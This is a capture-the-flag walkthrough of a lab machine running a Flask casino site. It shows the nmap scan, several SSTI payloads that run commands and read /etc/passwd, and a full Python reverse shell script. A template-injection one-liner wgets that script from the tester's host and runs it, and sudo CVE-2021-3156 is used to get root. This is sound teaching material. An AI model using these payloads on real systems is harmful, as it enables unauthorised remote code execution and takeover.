In this walkthrough, we'll go over one of the machines from the challenge labs on [Cyberseclabs.co.uk](https://www.cyberseclabs.co.uk).



Let's start the scanning process with nmap:
```bash
nmap -sTV -p- -n 172.31.3.7
```
We'll see that there are three ports open:
```bash
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-28 20:57 EDT
Nmap scan report for 172.31.3.7
Host is up (0.023s latency).

PORT     STATE    SERVICE    VERSION
22/tcp   open     ssh        OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 34:5c:51:eb:90:a2:79:74:42:3b:af:8b:64:66:2f:a2 (RSA)
|   256 d5:76:0c:92:ef:e1:83:9e:37:63:46:00:eb:9d:7b:05 (ECDSA)
|_  256 cd:4f:f8:48:9a:c7:38:85:a2:05:9c:3b:44:20:01:8c (ED25519)
80/tcp   open     http       Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: River - Index
9000/tcp filtered cslistener
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.07 seconds

```
It looks like a casino platform is being served on port 80:



While browsing, on the team page, we can see that one of the team members is a Flask developer:



After seeing this, I can check for a potential SSTI (Server Side Template Injection) vulnerability. I followed the process from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection)
Now, in the search box we can do the following tests:

1. ${7*7}



2. {{7*7}} 



3. {{7*'7'}} 



4. {{ self._TemplateReference\__context.cycler\.__init\__.\__globals\__.os.popen('id').read() }} 



5. {{ get_flashed_messages.\__globals\__.\__builtins\__.open("/etc/passwd").read() }} 



6. {{ self._TemplateReference\__context.namespace.\__init\__.\__globals\__.os.popen('ls /home').read() }} 



7. {{ self._TemplateReference__context.namespace.__init__.__globals__.os.popen('which python3').read() }}


    
From, our strategy could be creating a Python file with a reverse shell and upload it to the server, then run it within the same script. The Python file looks like this and we save it as ***revshell.txt***:
```python
#!/usr/bin/python3

import socket
import subprocess
import os
import pty

s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("YourIPAddress", 5555)) # Don't forget to put your IP Address here.
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
pty.spawn("/bin/bash")
```

Let's start a Python server to host this file with `sudo python3 -m http.server 80`
Now, by using the following script we can upload and run the Python file `{{ self._TemplateReference__context.namespace.__init__.__globals__.os.popen('wget http://10.10.0.18/revshell.txt -O /tmp/revshell.py;python3 /tmp/revshell.py').read() }}`



In terms of the privilege escalation, I look at the sudo version and OS distribution:



At this point, we can check if this machine is vulnerable to ***CVE-2021-3156 (Sudo Baron Samedit)*** vulnerability. We can use the following repo 
From this repo, we can use ***exploit_nss.py*** to see if we can get a root shell:



And we successfully gain the root level privileges.
I hope you enjoyed this walkthrough..

Thank you for reading...

[<= Go Back to Cyberseclabs Walkthrouhgs](CyberseclabsWalkthroughs.md)

[<= Go Back to Main Menu](index.md)
